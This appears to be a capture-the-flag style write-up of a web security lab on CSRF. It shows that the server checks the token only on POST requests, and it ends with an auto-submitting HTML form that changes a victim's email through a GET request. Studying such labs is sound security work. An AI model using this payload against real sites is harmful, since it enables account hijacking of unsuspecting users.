







# CSRF where token validation depends on request method

## Information

- Lab: CSRF
- Level: PRACTITIONER
- Description:

    

## Solution

Go to the website and log in with credentials `wiener:peter`.

We see a feature called `Update email`.



Try changing the email to `ahihi@ahihi.com` and capture the request in BurpSuite.





We can see that the `Update email` feature sends a `POST` request with a `CSRF token` attached, so the server can validate it.

```http
csrf=vppXcYYiq6MEJ6br6z2HFkvKvRj7s134
```

The attacker does not know the victim's CSRF token value. So if the attacker tricks the victim into visiting a malicious page he controls, to make the victim trigger `Update email`, the server will reject the request because the `CSRF token` is missing.



So let's try changing the method to `GET`.



And this time, it worked without needing a `CSRF token`.

The key issue is that the server is careless: it only validates `POST` requests, not `GET` requests.

So, to solve this lab, I just need to create a malicious form that updates the email to `ahihi3@ahihi.com` using the `GET` method, and send it to the victim.

Payload:

```html
<html>
    <body>
        <form action="https://0a69002903949a0084405e1300e10011.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="email" value="ahihi3@ahihi.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```



The lab has been solved!